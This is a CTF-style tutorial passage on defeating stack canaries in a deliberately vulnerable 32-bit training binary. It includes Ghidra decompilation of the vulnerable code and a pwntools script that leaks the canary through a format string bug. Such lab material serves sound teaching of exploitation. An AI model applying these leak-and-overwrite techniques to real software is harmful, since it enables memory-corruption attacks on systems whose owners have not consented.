 ```yaml
---
description: 09/14/2023
---
```


# 🏴☠ Bypass Stack Canaries (Leak + Write)

## Introduction

In this tutorial, we will be <mark style="color:yellow;">defeating stack canaries, a common mitigation technique for buffer overflows</mark>.

However, just like anything else, we can bypass them with the right effort and determination!

#### Also check out:

{% content-ref url="memory-protections/stack-canaries.md" %}
[stack-canaries.md](memory-protections/stack-canaries.md)
{% endcontent-ref %}

### Video Reference

{% embed url="https://www.youtube.com/watch?v=TOImpHQvmpo&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94&index=12&ab_channel=CryptoCat" %}

### Binary Target and Other Files

{% embed url="https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101/10-bypassing_canaries" %}

## Enumeration

`file`:

{% code overflow="wrap" %}
```
canary: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=9ecec437cdaead3327c28ef59456895c8ee89dd9, for GNU/Linux 3.2.0, not stripped
```
{% endcode %}

* 32-bit ELF binary
* Dynamically linked to `libc`
* Non-stripped

`checksec`:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Messing with the Binary

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

So, it appears that our long string does not impact the first input of the program, however the stack canary prevents us from inputting our string in the second input.

## Reversing

Throw the target binary into Ghidra.

I immediately noticed that this is a **ret2win** challenge because we were missing a function inside of `main()`.

Also, this allows us to simply focus strictly on bypassing the canary protection itself.

`main()`:

```c
undefined4 main(void)

{
  int iVar1;
  undefined4 uVar2;
  int in_GS_OFFSET;
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  vuln();
  uVar2 = 0;
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar2 = __stack_chk_fail_local();
  }
  return uVar2;
}
```

`vuln()`:

```c
void vuln(void)

{
  int in_GS_OFFSET;
  char local_50 [64];
  int local_10;
  
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  puts("You\'ll never beat my state of the art stack protector!");
  gets(local_50);
  printf(local_50);
  puts("\nWho said gets() is dangerous? Good luck with your BOF attack :P");
  gets(local_50);
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

`hacked()`:

```c
void hacked(void)

{
  int iVar1;
  int in_GS_OFFSET;
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  puts("Wait, how did you get in here?!");
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

### Identifying the Canary in Ghidra

Inside of our `main()` function, I have modified the variable to identify the canary better.

Essentially, `in_GS_OFFSET` will simply generate a random value and it will call `vuln()`.&#x20;

If you were overflowing the buffer and arrived at the `vuln()` call, and then upon returning, if the canary is not equal to what it was originally set to, it will call `__stack_chk_fail_local()`, resulting in a stack smashing error, crashing the program.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p><code>main()</code></p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p><code>vuln()</code></p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Upon viewing the stack, we can see that we have our return pointer on the stack (`AL:1`), our local\_8, and then our canary itself.

In other words, our canary will be 64-bytes in judging from our buffer, 12 bytes after we write the 4-byte canary in order to get to the return address.

## Identifying the Canary

We can do this by fuzzing the program if there is a format string bug to leak the canary.

**Keep in mind**:&#x20;

<mark style="color:yellow;">The canary value is very random, will not start with f7/ff, and will end with 00 usually</mark>.

You will want to run this script a few times and look for elements off of the stack that are changing and randomized each time the program is run.

`fuzz.py`:

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./canary', checksec=False)

# Let's fuzz x values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendline('%{}$p'.format(i).encode())
        p.recvline()
        # Receive the response
        result = p.recvline().decode()
        # If the item from the stack isn't empty, print it
        if result:
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>Upon running this a few times, this was the only element to be randomized and meet the criteria explained above.</p></figcaption></figure>

However, we can also use `gdb` to find this information.

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Obtaining `vuln()`'s address, viewing it's disassembly, breaking at it's `printf()`, running the program, using canary to view valid canaries on the stack, and printing 100 values in hex on the stack will allow us to be able to view the canaries on the stack as values.

We can see that we start from 0 and we count 24 elements on the stack (meaning our canary can be seen in the 23rd element of the stack).

Going back to our `fuzz.py`, we can see that this value in the 23rd element on the stack seems highly likely to be our canary. Keep in mind it will keep changing with each execution.

